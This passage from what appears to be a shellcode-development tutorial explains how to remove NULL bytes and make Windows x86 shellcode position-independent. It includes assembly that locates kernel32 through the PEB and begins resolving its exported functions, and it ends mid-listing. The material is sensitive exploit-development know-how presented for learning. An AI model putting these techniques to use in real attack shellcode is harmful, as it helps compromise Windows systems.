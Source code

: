 ```py
```

## Null-Free and Position-Independent Shellcode
The opcode contains NULL bytes, so we have to avoid these bytes. The first instruction that contains NULL bytes is "sub esp, 0x200". We can use the following instruction to obtain the same goal.

```
add esp, 0xfffffdf0
```

That's because the following operation:

```
0x0 - 0x210 == 0xfffffdf0
```

The next problem is that our CALL instructions are generating NULL bytes, each CALL will contain a relative offset to the function. We can move all the functions being called above the CALL instructions, in that way, this would generate a negative offset avoiding NULL bytes.

```py
CODE = [
        "start:                                  ",
        "   mov ebp, esp                        ;",
        "   add esp, 0xfffffdf0                 ;",  #   Avoid NULL bytes

        "find_kernel32:                          ",
        "   xor ecx, ecx                        ;",  #   ECX = 0
        "   mov esi, fs:[ecx+0x30]              ;",  #   ESI = &(PEB)
        "   mov esi, [esi+0x0C]                 ;",  #   ESI = PEB->Ldr
        "   mov esi, [esi+0x1C]                 ;",  #   ESI = PEB->Ldr.InInitOrder

        "next_module:                            ",
        "   mov ebx, [esi+0x8]                  ;",  #   EBX = InInitOrder[x].base_address
        "   mov edi, [esi+0x20]                 ;",  #   EDI = InInitOrder[x].module_name
        "   mov esi, [esi]                      ;",  #   ESI = InInitOrder[x].flink
        "   cmp [edi+12*2], cx                  ;",  #   module_name[12] == 0x00 ?
        "   jne next_module                     ;",  #   jump to the next module

        "find_function_shorten:                  ",
        "   jmp find_function_shorten_bnc       ;",  #   Short jump

        "find_function_ret:                      ",
        "   pop esi                             ;",  #   POP the return address from the stack
        "   mov [ebp+0x04], esi                 ;",  #   Save find_function address for later usage
        "   jmp resolve_symbols_kernel32        ;",

        "find_function_shorten_bnc:              ",
        "   call find_function_ret              ;",  #   Relative CALL with negative offset

        "find_function:                          ",
        "   pushad                              ;",  #   Save all registers
        "   mov eax, [ebx+0x3c]                 ;",  #   Offset to PE Signature
        "   mov edi, [ebx+eax+0x78]             ;",  #   Export Table Directory RVA
        "   add edi, ebx                        ;",  #   Export Table Directory VMA
        "   mov ecx, [edi+0x18]                 ;",  #   NumberOfNames
        "   mov eax, [edi+0x20]                 ;",  #   AddressOfNames RVA
        "   add eax, ebx                        ;",  #   AddressOfNames VMA
        "   mov [ebp-4], eax                    ;",  #   Save AddressOfNames VMA

        "find_function_loop:                     ",
        "   jecxz find_function_finished        ;",  #   jump if ECX == 0
        "   dec ecx                             ;",  #   Decrement names counter
        "   mov eax, [ebp-4]                    ;",  #   Restore AddressOfNames VMA
        "   mov esi, [eax+ecx*4]                ;",  #   RVA of the symbol name
```